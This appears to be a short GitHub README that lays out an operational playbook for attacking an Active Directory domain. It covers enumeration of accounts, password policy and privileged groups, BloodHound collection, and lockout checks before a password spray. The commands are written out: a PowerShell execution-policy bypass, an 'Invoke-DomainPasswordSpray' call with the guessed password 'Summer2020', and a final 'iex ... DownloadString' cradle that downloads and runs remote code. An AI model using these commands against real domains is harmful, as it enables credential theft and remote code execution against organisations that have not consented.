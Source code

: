 # AD
Queries and code related to Active Directory

Process: 
1. Use the "ADCounts.ps1" script to size up the directory.
2. Use a command like "Net accounts /domain" to see the current password policy (Don't want to lock thouse accounts, eh?)
3. Use GetADPrivGroups.ps1 to get membership in the main AD Elevated groups - see who is who.
4. Could go and get Blood Hound / SharpHound, maybe collect some juicy details... 
5. Assess the current situation before the sparay - try getlockoutinfo.ps1.
6. Then attempt the PW spray with pwspray.ps1

6.A. Need to open up a PowerShell prompt w/ bypass: from command prompt, "PowerShell -exec bypass" should get you there.
6.B. Need to import the script - Type 'Import-Module pwspray.ps1', which is a more paranoid version of dafthack's pw spray script.
6.C. Run the script - Invoke-DomainPasswordSpray -Password Summer2020 -OutFile results.txt
6.D. Observe - Search-ADAccount –LockedOut. Problems? Use control C and punt. Wait a bunch before you try again. 

7. Kick it up a notch: 
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://...')"


